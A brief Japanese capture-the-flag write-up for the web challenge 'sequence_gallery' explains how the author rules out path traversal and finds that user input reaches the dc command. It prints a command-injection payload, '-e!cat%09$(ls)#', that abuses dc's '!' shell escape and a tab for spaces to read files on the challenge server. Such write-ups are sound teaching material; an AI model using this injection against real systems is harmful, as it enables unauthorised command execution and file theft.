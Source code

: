 ```yaml
---
type: writeup
tags: web
---
```


# sequence_gallery

## 要約

* ローカル環境整えるの大事
* ディレクトリトラバーサル、じゃなさそう
  * <https://blog.hamayanhamayan.com/entry/2021/12/08/220449>
* subprocessの脆弱性、じゃなさそう
  * `shell=True`じゃないので（知らんけど）
* dcコマンドっぽい
  * <https://kazmax.zpp.jp/cmd/d/dc.1.html>
  * `-e` が使えそう（）
* 空白が使えないならタブを使えばいいでしょ
  * <https://www.w3bai.com/ja/tags/ref_urlencode.html#gsc.tab=0>

## 考察

## 解法

以下にアクセスしてフラグを得る。

```text
http://sequence-gallery.chal.crewc.tf:8080/?sequence=-e!cat%09$(ls)#
```

```text
dc -e!cat%09$(ls)#
```

* `!`: シェルコマンド実行
* `%09`: `\t`に変換される
* `#`: 以降はコメント
